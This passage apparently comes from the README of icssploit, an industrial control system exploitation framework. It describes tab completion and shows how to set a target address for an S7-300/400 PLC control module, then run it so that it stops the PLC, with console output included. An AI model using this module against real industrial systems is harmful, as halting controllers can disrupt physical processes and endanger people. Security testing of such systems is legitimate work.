 ### Search Command Tab Completion
```bash
icssploit > search [TAB]        # Shows: Common search terms
icssploit > search p[TAB]       # Shows: p-related terms
icssploit > search plc[TAB]     # Shows: plc-related terms
```

### Show Command Tab Completion
```bash
icssploit > show [TAB]          # Shows: info, options, devices, all, creds, exploits, scanners, clients
icssploit > show c[TAB]         # Shows: creds, clients
icssploit > show clients        # Shows: Available clients
```

**Note**: Tab completion requires readline support. On Windows, `pyreadline3` is automatically installed via requirements.txt. On other platforms, readline should work by default.


## Options
### Display module options:
    icssploit (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    icssploit (S7-300/400 PLC Control) >
    
### Set options
    icssploit (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## Run module
    icssploit (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    icssploit (S7-300/400 PLC Control) >
    